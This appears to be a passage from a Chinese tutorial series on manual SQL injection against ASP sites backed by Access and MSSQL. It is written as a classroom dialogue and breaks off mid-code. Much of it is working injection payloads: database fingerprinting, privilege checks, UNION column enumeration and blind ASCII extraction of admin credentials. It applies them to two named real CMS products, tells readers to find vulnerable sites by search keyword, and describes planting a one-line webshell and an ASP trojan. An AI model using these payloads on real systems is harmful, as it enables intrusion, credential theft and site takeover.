INSERT INTO 数据表（字段1,字段2,……）VALUES（字段新值）
```

这两种格式的区别为：当 VALUES() 中含有数据表的所有字段时，可以省略“数据表”后面的“（字段1，字段2，……）”。

```sql
INSERT INTO ADMIN (id,username,password) VALUES (2,'duyao','123456');
```

向 ADMIN 数据表中插入一条新的记录。新记录的 ID 为 2，用户名为 duyao，密码为 123456（字符串都必须使用单引号引起来，数字型的值则可以不用单引号）。

#### 6. 创建数据库语句

```sql
CREATE DATABASE 数据库名称
CREATE DATABASE POISON;
```

建立一个名称为 POISON 的数据库。

#### 7. 创建数据表语句

```sql
CREATE TABLE 数据表（字段名 数据类型，字段名 数据类型，……）
CREATE TABLE tmp (tmp text);
```

建立一个名为 tmp 的数据表，数据表中包含一个名为 tmp、数据类型为 text 的字段。

#### 8. 分组查询语句

分组查询使用“GROUP BY”和“HAVING”来实现。

SELECT 字段名 FROM 数据表 GROUP BY 用来分组的字段名 HAVING 分组的字段名 = 内容。

例如：在一张班级成绩单的数据表 CLASS 中，选出所有男生的成绩，语句就为 SELECT * FROM CLASS GROUP BY 性别 HAVING 性别='男'。其中“GROUP BY”按照不同的性别把数据分成组，HAVING 表示选择性别为“男”的一组。

### 三、常用的基础函数

- 1. COUNT 函数
  - COUNT(*)：算出返回记录的行数。
  - SELECT COUNT(*) FROM ADMIN：返回 ADMIN 表中所有记录的行数。

- 2. 得到字符的 ASCII 码

```sql
Access 为：asc(字符)
SQLServer 为：unicode(字符)
```

asc('#')=35，“#”的 ASCII 码值为 35。

- 3. 根据 ASCII 码得到字符

```sql
Access 为：chr(数字)
SQLServer 为：nchar(数字)
```

chr(35)=#；根据 ASCII 码 35 得到字符为“#”。

- 4. 得到字符串的第 N 位字符

```sql
Access 为：mid(字符串,N,1)
SQLServer 为：substring(字符串,N,1)
```

mid(poison,1,1)=p：截取字符串 poison 的第 1 位字符为 p。  
mid(poison,3,1)=i：截取字符串 poison 的第 3 位字符为 i。

- 5. 取得数字的绝对值（在遇到中文的时候可能会用到）

```sql
Access 为：abs(数字)
SQLServer 为：abs(数字)
```

abs(-111)=111：取得数字 -111 的绝对值为 111。  
abs(111)=111：取得数字 111 的绝对值为 111。

- 6. 区间判断
  - A between B and C：判断 A 是否介于 B 与 C 之间。
  - B between A and C：判断 B 是否介于 A 与 C 之间。

### 四、得到并简单分析注入点

- 1. 检测是否存在注入  
  判断是否存在注入最好的方法就是分别在 URL 后面添加 and 1=1 和 and 1=2。如果两次返回的结果不同，则说明很有可能存在注入。文中以 http://www.xxx.com/zw.asp?title_id=48791 为例，分别追加条件后返回结果如图8和图9所示，一个正常一个提示“没有找到文章”，可据此判断存在注入漏洞。

- 2. 判断数据库类型  
  首先提交 http://www.xxx.com/zw.asp?title_id=48791 and user>0。若返回类似图10的错误提示，可初步判断网站为 MSSQL Server 数据库。其原理是将 SQL SERVER 内置变量 user（nvarchar）与 int 比较时触发转换错误。







将 nvarchar 值“xxx”转换为 int 时发生错误……其中“xxx”就是当前连接数据库的用户名。这样就简单知道了数据库类型和数据库用户名。这种方法是利用 IIS 返回的错误提示判断的。

提交 http://www.xxx.com/zw.asp?title_id=48791 and 0<>(SELECT COUNT(*) FROM sysobjects)。sysobjects 是 SQL SERVER 中的系统表；若是 Access 则会因找不到该表而报错，返回页面与原页面不同。

- 3. 检测 MSSQL 数据库的权限  
  在得到 MSSQL 注入点后，继续检测权限：
  - and 0<>(select IS_SRVROLEMEMBER('sysadmin'))
  - and 0<>(select IS_MEMBER('db_owner'))

  根据返回是否正常可判断是否具备 sysadmin 或 db_owner 权限。



cn/info.asp?id=212 and 0<>(select IS_MEMBER('public'))——返回正常则说明用户是可怜的 public 权限（db_owner 权限包含了 public 权限）。提交 `http://www.xxx.gov.cn/info.asp?id=212 and 0<>(select IS_MEMBER('db_owner'))--`，返回正常的话，继续提交 `http://www.xxx.gov.cn/info.asp?id=212 and 0<>(select IS_MEMBER('public'))--` 也会返回正常的。

知道了如何去手工检测权限，相信大家以后再遇到不同的工具检测出不同的权限时就再也不会去打架了，自己手动检测一下真正的结果就出来了。

#### 4. MSSQL 的其它一些技巧

在确定得到一个注入点后，提交 `http://www.xxx.com/zw.asp?title_id=48791 and db_name()>0`，如图12。



`db_name()` 和前面的 user 类似，是 SQL SERVER 的一个内置函数。它的值是当前连接数据库的数据库名称，是“nvarchar”类型的数据。当我们用“nvarchar”类型的数据和 int 类型的 0 比较时，系统会自动试图把“nvarchar”类型的数据转换成 int 类型的数据，在转换的过程中就会出错，错误信息类似：“将 nvarchar 值 ‘aaa’ 转换为 int 时发生错误……”。其中“aaa”就是当前连接数据库的数据库名称，这样我们就轻松地知道了数据库名称。

提交 `http://www.xxx.com/zw.asp?title_id=48791 and (select @@version)>0`，如图13。原理和前面的 db_owner 相似，根据返回的信息可以很容易得到 SQL SERVER 的版本信息以及服务器操作系统的类型和版本信息。



## 五、分析注入工具的原理取人之长补己之短

虽然有的时候注入工具会出错，但是这些优秀工具的原理和思路是非常经典的，我们有必要了解作者的思路来取人之长补己之短。怎么看工具的原理呢？看工具的程序源代码显然是不行的，很多程序的代码并非是开源的，而且就算是开源了，让我们小菜去看代码，相信很多人也看不懂那些符号是什么意思。我们利用抓包工具来抓取程序提交的数据，然后分析数据中包含的注入语句，来了解工具的原理。

打开 NBSI，把有注入漏洞的网址填到“注入地址”中，先不要点“检测”，打开 WSockExpert，点击工具栏上的文件夹图标，选择 NBSI 程序，如图14。


在 WSockExpert 中点击“OPEN”，然后使 NBSI 开始检测。这时 WSockExpert 里就会抓出 NBSI 所发送的所有数据（里面红色的就是提交的数据，蓝色的是网页返回的数据），点击红色的行下面会显示出完整的内容，这里面包含了 NBSI 提交的注入语句，如图15。


得到的语句为 `zhuru1.asp?id=1%20and%20user%2Bchar(124)=0`，其中 `char(124)` 就是 ASCII 码为 124 的字符 `|`，`%20` 是空格，`%2B` 是 `+`。这个注入语句整理后就是 `and user+'|'=0`，它的背后包含了一些很高明的技巧，因为对菜鸟来说比较难，就不细说了。

好了，今天时间不早了，东西也讲了很多，就不介绍新的知识了。回去后大家好好把上面的语法知识牢牢掌握好……

## 手动注入也精彩

### ——进阶篇（上）


三月底四月初，北京的天气预报总是重复着“某年某月某日，大风4-8级，滋润过度或身体虚弱者上街时请往口袋里装两个秤砣。订购购买BTV专用秤砣者可以电话联系北京电视台购物频道24小时800免费电话，我们将在第一时间内负责送货上门……”

可怜的菜鸟购买了秤砣后，特意挑了一个大风天上街验证秤砣的效果。没想到秤砣质量是好了，可裤子口袋质量太差了，秤砣直接从两边的裤子口袋里以 9.8 米每平方秒的加速度砸在了菜鸟的“纤纤细腿”上……

消息传到了菜鸟学堂，众小菜都坐不住了。随后是课堂对话，围绕“课程不能断、继续学习 SQL 注入”展开。

### 一、SQL 注入的几种类型

SQL 注入漏洞的利用必须经过寻找注入点、判断数据库类型两个基本步骤。所谓寻找注入点，就是找到一个可以任意提交数据的页面，而提交的数据又被程序引入到了 SQL 查询中……

#### 1. 数字型注入漏洞

一般来说，类似于 `http://www.baidu.com/xxx.asp?ID=12` 的注入点参数一般是数字型。ASP 中常见写法：`id=request("ID")`。当 SQL 执行时可形成 `select * from 表名 where id=12`。

若将参数改为 `ID=12 and 1=1`，SQL 会变成 `select * from 表名 where id=12 and 1=1`。由于 `1=1` 恒成立，页面通常与原访问结果一致，可用于判断注入可能性。

#### 2. 字符型注入漏洞

例如 `http://www.baidu.com/xxx.asp?name=poison`，ASP 中写法常见为 `name=request("name")`，对应 SQL 形如 `select * from 表名 where name='poison'`。字符型参数两边有单引号，检测方式与数字型有所不同。

```text
http://www.baidu.com/xxx.asp?name=poison' and '1'='1
http://www.baidu.com/xxx.asp?name=poison' and '1'='2
```

#### 3. 搜索型注入漏洞

不少网站提供搜索功能，关键词提交后地址会变为类似 `http://www.baidu.com/search.asp?keyword=hackerxfiles`。在 ASP 中常见为 `keyword=request("keyword")`，传入 SQL 后如：`select * from 表名 where keyword like '%hackerxfiles%'`。

```text
http://www.baidu.com/search.asp?keyword=hackerxfiles%' and 1=1 and '%'='
http://www.baidu.com/search.asp?keyword=hackerxfiles%' and 1=2 and '%'
```

不同的注入参数类型本质上没有什么不同，只是构造的注入语句的格式有一点差异。这里我们以简单常见的数字型为例，介绍如何将数据库中我们最感兴趣的信息猜解出来。

### 二、ACCESS 数据库

在上节课里，我们对数据库的知识简单地进行了介绍，可以轻松地判断出我们面对的网站是使用了 Access 数据库还是 SQL Server 数据库。今天先用 Access 数据库做示范进行讲解。假设我们找到了一个存在注入的 URL：`http://www.xxx.com/xxx.asp?id=1`。它工作在一个 Access 类型的数据库里。为了得到这个数据库的所有数据，我们首先要猜测，猜测这个数据库里有哪些“表”，然后再猜测每一个表里有哪些“字段”。是的，每一步都是在猜，如果猜不出来的话就换下一个。

> “苍蝇不叮无缝的蛋”。黑客也是一样，没有办法攻击没有漏洞的系统。

#### 1. 猜解表名

```sql
and exists (select * from 表名)

http://www.xxx.com/xxx.asp?id=1 and exists (select * from admin)
```

如果返回的页面和正常页面相同，说明 `and` 后的附加条件成立，即 `admin` 表是存在的。若 `admin` 表不存在，就把 `admin` 换成别的表名，如此重复，直至猜到表名。常见的表名如图1所示。

图1：TableName 列表示例（admin、user、news、password 等常见表名）

#### 2. 猜解列名

```sql
and exists (select 字段名 from 表名)

http://www.xxx.com/xxx.asp?id=1 and exists (select user from admin)
```

图2：FieldName 列表示例（username、password、userid、adminid 等常见字段名）

#### 3. UNION 查询

UNION 的意思是联合，它可以将两个或两个以上 SELECT 语句的查询结果合并成一个结果显示，系统会自动去掉重复的记录，即执行联合查询。

```sql
select 字段1, 字段2, ... from 表名
union select 字段1, 字段2, ... from 表名
```

使用 UNION 进行联合查询时，前后语句字段数量必须一致。例如：`select name,password,id from user union select user,pwd,uid from admin`。前后均为三个字段，数据类型也应尽量对应。

```text
http://www.xxx.com/xxx.asp?id=1 and 1=1 union select 1 from admin
http://www.xxx.com/xxx.asp?id=1 and 1=1 union select 1,2 from admin
http://www.xxx.com/xxx.asp?id=1 and 1=1 union select 1,2,3 from admin
```

这一步是为了猜出 `admin` 表中共有多少个字段。若 `union select 1,2,3,4 from admin` 可正常返回，说明该表包含 4 个字段。再把 `and 1=1` 换成 `and 1=2` 可继续验证。

可能有的读者看到这个情况会觉得很神奇，其实它的原理很简单。学习 SQL 注入的时候，要时刻注意还原完整的 SQL 语句。

```sql
select * from admin where id=1 and 1=2 union select 1,2,3,4 from admin
```

这个 SQL 语句执行时，前半句因为 1=2 永远无法成立，所以查询结果为空；联合后面的 4 个数字后得到 1、2、3、4。图中显示的“3”正是 union select 后面的“3”对应位置。

#### 4. ASCII 逐字解码法

UNION 查询可以瞬间爆出字段内容，但并非总能使用。当 UNION 法失效时，还需要学习 ASCII 逐字解码法。

> **小知识：什么是 ASCII 码？**  
> ASCII 是 American Standard Code for Information Interchange 的缩写，用来给字符定义编码。常见字符对应 0–127 的编码，例如大写 A 为 65，小写 a 为 97。

- 1. 猜解列长度

```sql
... and (select top 1 len(列名) from 表名)>N
... and (select top 1 len(列名) from 表名)=N
```

其中 N 是数字，变换 N 的值猜测列长度。

```text
http://www.xxx.com/xx.asp?id=1 and (select top 1 len(列名) from 表名)>1
http://www.xxx.com/xx.asp?id=1 and (select top 1 len(列名) from 表名)>6
```

如果一直到 6 都正常，猜到 7 返回错误，则该列长度为 7。`top 1` 表示取最前 1 条记录。

```sql
select top 1 len(列名) from 表名
where 列名 not in (select top 1 列名 from 表名)
```

- 2. ASCII 码分析法猜解用户名和密码

需要用到 ASC() 与 Mid 函数。`mid(列名,N,1)` 返回第 N 位字符；`asc(mid(...))` 得到该字符 ASCII 码，再对照表可还原字符。

```sql
and (select top 1 asc(mid(字段名,1,1)) from 数据库名)=97
```

可借助区间判断缩小范围：`between ... and ...`，再逐步定位 ASCII 值。

```sql
and exists (select * from 表名 where asc(mid(字段名,1,1)) between 30 and 130)
```

> **小知识：什么是二分法**  
> 把数值区间不断二分（如先判定 0–500，再判定 500–750 或 750–1000），可快速缩小猜解范围。

- 3. 中文处理方法

怎么猜呢？其实，在 Access 中，可以利用 abs() 函数取绝对值，接下来的工作就和普通猜解没有什么区别了。例如：and (select top 1 abs(asc(mid(列名,1,1))) from 表名)=18754。其中 ASCII 码值“-18754”对应的中文字符为“蒋”。这样就完全可以手动得到中文字符的用户名和密码。学习手动注入比较好的方法就是多动手练习，下面给大家提供两个实例，希望大家能够多多练习，自己体会其中的含义。

### 三、ACCESS 数据库的注入实例

#### 1. union 查询的应用——尘缘雅境图文系统沸腾 3as 修改版 v0.45 Finish 注入漏洞

我们便搜索关键字“V0.45 ACCESS 版 Finish”，可以找到使用这个系统的网站。

##### ① 分析注入点

出现问题的代码位于“textbox.asp”文件中，具体代码如下：

```asp
Action=LCase(Request.QueryString("Action"))
newsID=Request.QueryString("newsID")

if request("action")="modify" Then
  set rs=server.createobject("adodb.recordset")
  sql="select * from news where newsid="&newsid
  rs.open sql,conn,1,1
```

这里“newsID”变量直接放到了数据库查询语句中，可以构造注入语句获得数据库的信息。因为只有注册用户登录以后才能访问 textbox.asp 页面，这样就无法利用一般的注入工具，只能通过手动来检测（小编注：啊D 可以在浏览页面里登录以后，再转入注射分析页面，这样能够在需要登录的注射点进行自动检测）。在首页随意找一篇文章，得到它的 newsID，例如 newsID=137。先注册一个用户，登录网站以后，访问存在注入的页面：http://127.0.0.1/chenyuan/textbox.asp?action=modify&newsID=137。分别提交：

```text
http://127.0.0.1/chenyuan/textbox.asp?action=modify&newsID=137 and 1=1
http://127.0.0.1/chenyuan/textbox.asp?action=modify&newsID=137 and 1=2
```

返回结果如图 7、图 8。一个返回正常，一个返回空白页面，说明确实存在注入漏洞。

##### ② union 查询获得管理员的用户名和密码

通过现有的程序代码的分析，知道管理员的用户名和密码放在 admin 表中，里面有 username、passwd、purview、OSKEY 等字段。如果 purview=99999 并且 OSKEY=super，那么对应的用户就是超级管理员，所以我们可以提交：

```text
http://127.0.0.1/chenyuan/textbox.asp?action=modify&newsID=137 and 1=1 union select 1 from admin
```

返回错误，如图 9。继续提交  
http://127.0.0.1/chenyuan/textbox.asp?action=modify&newsID=137 and 1=1 union select 1,2 from admin，  
也返回错误。一直猜到 1,2,3...27 后返回正确页面，如图 10。

图 10 中的“9”是和 union select 后面的“9”对应的，如果把 union select 后面的“9”换成对应字段的名字就会在图中“9”的位置显示出字段的内容。提交：

```text
http://127.0.0.1/chenyuan/textbox.asp?action=modify&newsID=137 and 1=2 union select 1,2,3,4,5,6,7,8,username,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27 from ADMIN where purview=99999
```

返回可得到管理员用户名“basc”。继续提交：

```text
http://127.0.0.1/chenyuan/textbox.asp?action=modify&newsID=137 and 1=2 union select 1,2,3,4,5,6,7,8,passwd,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27 from ADMIN where username='basc'
```

得到密码（MD5 加密），可到 http://www.cmd5.com 查询。后台登录地址为 http://127.0.0.1/chenyuan/admin/login.asp。

##### ③ 利用网站的配置文件来写入 WEBSHELL

登录后台后，进入“系统管理”，“网站属性”打开网站配置的功能，在“留言本屏蔽词语”中写入我们的一句话木马的代码，如图 13。设置好以后提交保存，我们的木马代码就保存在 config.asp 文件中了。

使用一句话木马的连接端连接 inc 目录下的 config.asp 文件 http://127.0.0.1/chenyuan/inc/config.asp，如图 14。成功的话就会出现图 15 所示的界面了。

再利用菜鸟学堂中介绍的“小马传大马”的方法，传一个海阳顶端 ASP 木马或者站长助手上去。成功得到 WEBSHELL 以后，别忘了此时网站还不能正常访问呢。用海阳的 ASP 木马编辑文件的功能编辑 inc 目录下的 config.asp，把其中的一句话木马的代码删掉，如图 16。

#### 2. ASCII 逐字解码法的应用——网趣购物系统 XP 版 v3.2 注入漏洞

出现问题的代码在 pingji.asp 页面中，具体的代码我们就不在这里分析了。用百度搜索“网趣购物系统 XP 版”，可以找到很多使用这套系统的网站。在首页随意找一篇文章，得到它的 id，例如 id=325。

##### ① 猜解表名

提交：`http://127.0.0.1/wangqu/pingji.asp?id=325 and (select count(*) from admin)<>0`，返回如图 17 所示，说明不存在 admin 表。

提交：`http://127.0.0.1/wangqu/pingji.asp?id=325 and (select count(*) from wq_admin)<>0`，返回正常，如图 18，说明存在表 wq_admin。

##### ② 猜解列名

提交：`http://127.0.0.1/wangqu/pingji.asp?id=325 and (select count(admin) from wq_admin)<>0`，返回正常，说明 wq_admin 表中存在 admin 字段，也就是管理员的用户名列。

提交：`http://127.0.0.1/wangqu/pingji.asp?id=325 and (select count(password) from wq_admin)<>0`，返回正常，说明 wq_admin 表中存在 password 字段，也就是管理员的密码列。

- 3. **猜解管理员用户的个数**  
  提交：`http://127.0.0.1/wangqu/pingji.asp?id=325 and (select count(*) from wq_admin)=1`，返回正常，说明管理员表中有一条记录，也就是有一个管理员账号。

- 4. **猜解管理员用户名的长度**  
  分别提交：`... and (select len(admin) from wq_admin)>=1`、`>=2`、`>=3`、`>=4`、`>=5` 均返回正常；提交 `>=6` 返回错误页面，说明 `admin` 长度为 5。

- 5. **猜解管理员用户名**  
  通过 `asc(mid(admin,1,1)) between 30 and 130` 等条件逐步缩小范围，最终如 `select asc(mid(admin,1,1)) from wq_admin)=97`，得到首字符。然后将 `mid(admin,N,1)` 中的 `N` 递增，依次猜解每一位字符。

- 6. **猜解管理员的密码**  
  按同样原理，将语句中的 `admin` 改为 `password` 即可。例如：`... and (select count(*) from wq_admin where (asc(mid(password,1,1))) between 30 and 130)<>0`。

- 7. **登录后台获得 webshell**  
  利用用户名和密码登录后台，进入“商品管理”→“添加商品”，通过“插入或修改图片”上传 ASP 木马（通过图片后缀改写及数据库备份路径写入）来获取可访问的脚本地址。

备份成功后，访问 ASP 木马地址（示例：`http://127.0.0.1/wangqu/Databackup/poison.asp`）即可看到 webshell。

### 总结

对于 ASP + ACCESS 类型注入漏洞，关键是耐心猜解与练习。若能拿到源码，可先查看表名和列名，减少盲猜成本；多做实战可提升效率。

## 手动注入也精彩——进阶篇（下）

### 注入漏洞的原理

我的笔记本电脑中了病毒，似乎连我自己也被电脑病毒感染了。第二台电脑与笔记本并无连接，却也出现中毒迹象，于是怀疑病毒是否“传染”到了人。

> “都说病从口入，我只好戴上口罩使用 MM 的笔记本电脑。这回电脑没有中病毒。我确信自己被电脑病毒感染了，于是跑到医院对医生说：‘我被电脑病毒感染了。’结果医生确诊我精神病疑似病例……”

课堂上介绍了如何利用注入点手工拿到 ACCESS 数据库内容。有人感叹拿到很多 webshell，随后引出问题：为什么那样做就能得到数据库内容？为什么会出现注入漏洞？

注入漏洞主要由程序在编写脚本时对特殊字符过滤不完全导致。脚本系统文件多、开发者难以面面俱到，因而留下可被利用的入口。

“这句话我们都听了 N 遍了，可还是不明白具体是什么意思，毒药老师就说点简单易懂的吧……”

“毒老师啊，您就发发慈悲，给我们点机会，让我们尝试一下在漏洞里遨游的滋味，让我们也体会体会发现漏洞的快感吧……”

### 一、Microsoft Office Access 分析 SQL 语句

注入漏洞关键就是对数据库的操作，所以有必要了解正常的 SQL 语句和经过精心构造的 SQL 注入语句的区别。

#### 1. 创建数据表

Microsoft Office Access 在前面已经给大家简单介绍过了，我们先新建一个数据库文件，打开这个数据库文件后，再新建一个数据表，选择“通过输入数据创建表”，在弹出的对话框中添加字段的名字“id”、“name”（通过右键选择“重命名列”把默认的“字段1”改为想要的字段名字），如图 1。

#### 2. 添加记录

然后在对应的字段下面来添加记录，如图 2。

完成后关闭该窗口，选择“是”，保存对表格的修改，并且输入表格的名字。这样包含“id”、“name”字段的数据表就建好了。一个简单的 Access 数据库文件也就建立好了。

#### 3. 执行 SQL 查询

如何执行 SQL 查询，我们在基础篇中已经详细介绍过了。选择“查询”选项，双击“在设计视图中创建查询”，在“显示表”的对话框中单击关闭，关闭该对话框。选择主菜单栏下的“SQL 视图”，在显示的窗口中输入相应的查询语句，然后单击“运行”按钮。

```sql
select name from admin where id=1
select name from admin where id=1 and 1=1
select name from admin where id=1 and 1=2
```

返回结果如图 3 所示。上面三条语句中，第二条条件为真可返回记录，第三条条件为假则得不到记录。依据页面返回信息的差异，可以判断注入是否存在，并进一步构造语句猜解数据库内容。

### 二、ASP 中注入漏洞是如何发生的

注入漏洞主要是程序员在编写脚本程序时对特殊字符过滤不完全而引起的。为了理解其过程，可以编写一个存在漏洞的 ASP 页面，分析程序如何得到客户端提交变量，并将变量带入 SQL 查询语句。

```asp
<%
dim strSQL,id
